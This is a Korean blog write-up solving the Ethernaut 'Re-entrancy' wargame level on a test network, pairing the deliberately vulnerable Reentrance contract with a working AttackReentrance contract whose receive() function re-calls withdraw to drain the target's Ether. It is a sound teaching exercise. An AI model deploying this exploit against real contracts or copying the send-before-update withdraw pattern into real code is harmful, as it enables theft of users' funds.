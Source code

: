 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 10) Re-entrancy
date: '2022-01-13 16:20:00'
author: 한성원
tags: ethernaut Re-entrancy vulnerability
categories: 취약점분석
---
```



# 👋 Re-entrancy
__Difficulty 6/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Reentrance contract의 모든 Ether 훔쳐오기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract Reentrance {

    using SafeMath for uint256;
    mapping(address => uint) public balances;

    // _to에게 기부할 수 있는 function 
    function donate(address _to) public payable {
        // 기부 받는 사람의 balance를 msg.value만큼 늘린다.
        balances[_to] = balances[_to].add(msg.value);
    }

    // _who의 balance를 return 한다.
    function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
    }

    // 자신이 가지고 있는 balance에서 인출(withdraw)할 수 있다.
    function withdraw(uint _amount) public {
        // msg.sender의 balance가 인출하려는 액수와 같거나 큰지 체크
        if(balances[msg.sender] >= _amount) {
            // msg.sender에게 _amount의 액수만큼 Ether를 보낸다.
            (bool result,) = msg.sender.call{value:_amount}("");
            if(result) {
                _amount;
            }
            // balance에서 인출한 만 balance를 줄인다.
            balances[msg.sender] -= _amount;
        }
    }
    
    receive() external payable {}
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 Reentrance는 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.

## 풀이
이 문제에서 우리의 목표는 Reentrance contract에서 모든 Ether를 훔쳐오는 것이다.

위 코드는 취약점 시리즈 1에서 공부했었던 [Reentrancy Attack](https://holyhansss.github.io/vulnerability/reentrancy_attack/reentrancy_attack/)와 비슷한 코드를 가지고 있다. 

이 문제에 들어가기 전에 우리가 알아야 할 것은 함수를 실행하는 도중에 다시 함수가 불릴 수 있다는 것이다. Ethernaut에세 주는 힌트에서 알 수 있듯이 다른 contract를 통해 이를 가능케 할 수 있다.

AttackReentrance contract를 한번 보며 더 이해해보자!

우선 console 창에서 여러가지 정보를 확인해 보자
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// contract가 가지고 있는 ether의 양 확인
await getBalance(instance) 
```


```solidity
contract AttackReentrance {

    Reentrance reentrance;
    // value라는 변수를 통해 donate하는 액수와 withdraw하는 액수를 같게 만들었다.
    uint256 value;
    
    // constructor
    constructor(address payable _reentrance) public {
        // attack 할 contract 불러오기
        reentrance = Reentrance(_reentrance);
        // value를 0.001 ether로 설정: Reentrance contract의 balance가 0.001 ehter 였기 때문에 이렇게 설정했다.
        value = 0.001 ether;
    }

    // Reentrance contract의 donate 함수를 실행시키는 함수
    function attackDonate() public payable {
        // msg.value가 value 값과 같은지 확인
        require(value == msg.value);
        // Reentrance contract의 donate 함수 실행
        reentrance.donate{value: msg.value}(address(this));
    }

    // Reentrance의 withdraw 함수를 실행
    function attackWithdraw() public payable {
        // 자신에게 value 만큼 donate했기 때문에 value만큼 인출한다.
        reentrance.withdraw(value);
    }

    // receive function
    receive() external payable {
        // 돈을 인출하자마자 다시 withdraw를 call한다.
        // 실질적인 공격 코드!
        reentrance.withdraw(value);
    }
}
```
위 코드를 Remix IDE에서 위 코드를 Rinkeby Network에 배포한다. 그럼 아래와 같은 버튼들이 나올 것이다. 

![remix_attack_reentrance](remix_attack_reentrance.png)
위 버튼들 중에서 attackDonate 버튼을 눌러 donate하고 attackWithdraw를 통해 withdraw 하면 공격이 끝난다. 

이후 
```javascript
// contract가 가지고 있는 ether의 양 0이 된 것을 확인 할 수 있다.
await getBalance(instance) 

// attackContract 가 가지고 있는 ether의 양이 늘어날 것을 확인할 수 있다
await getBalance("address of attackContract")
```


이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -

## 마무리
Reentrancy attack은 굉장히 유명한 공격 중 하나이다. 내가 지금까지 다뤘던 것은 Reentrancy on a Single Function 이었다. The DAO 사태는 Cross-function Reentrancy였던만큼 Cross-function도 꼭 한번 다뤄야겠다고 느낀다. 나머지 시리즈도 화이팅!

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- Re-entrancy 취약점: https://holyhansss.github.io/vulnerability/reentrancy_attack/reentrancy_attack/

```toc

```